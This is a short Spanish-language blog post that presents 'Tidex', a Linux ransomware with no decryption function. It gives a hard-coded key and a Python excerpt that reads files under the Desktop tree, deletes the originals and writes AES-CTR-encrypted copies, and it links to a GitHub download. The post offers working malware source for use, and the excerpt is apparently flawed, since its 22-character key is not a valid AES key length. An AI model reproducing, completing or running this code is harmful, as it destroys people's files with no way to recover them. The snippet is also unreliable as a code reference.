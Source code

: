 ```yaml
---
title: "Tidex Ransomware"
excerpt: "Ejemplo de Ransomware Tidex para Linux"
date: "Jan 30 2023"
cover_image: "/blog/rtidex.webp"
alt: "Ransomware"
tags1: "Python"
tags2: "Hacking"
---
```


# Tidex

Pequeño y simple Ransomware, solo funciona para cifrar archivos en la ruta del directorio Escritorio y subdirectorios.

&nbsp;

## Importante

Por el momento solo se puede ejecutar en máquinas Linux. Carece de función de descifrado.
La CLAVE es: **hkpykiiqftupr3okl04azj**

&nbsp;

Ejemplo de Código

```python
def _lock():
    for files in all_Ext:
        for _dotFile in glob.glob(files):
            print(_dotFile)
            f = open(f'{__dir()}/{_dotFile}', 'rb')
            dataArr = f.read()
            f.close()
            os.remove(f'{__dir()}/{_dotFile}')
            key = "hkpykiiqftupr3okl04azj"
            aes = pyaes.AESModeOfOperationCTR(key)
            EncryptData = aes.encrypt(dataArr)
            newArr = _dotFile.replace(char, "") + Ext
            newArr = open(f'{newArr}', 'wb')
            newArr.write(EncryptData)
            newArr.close()
```

### [Descargar aquí desde GitHub](https://github.com/Rawierdt/Tidex)

Gracias
~ Rawier.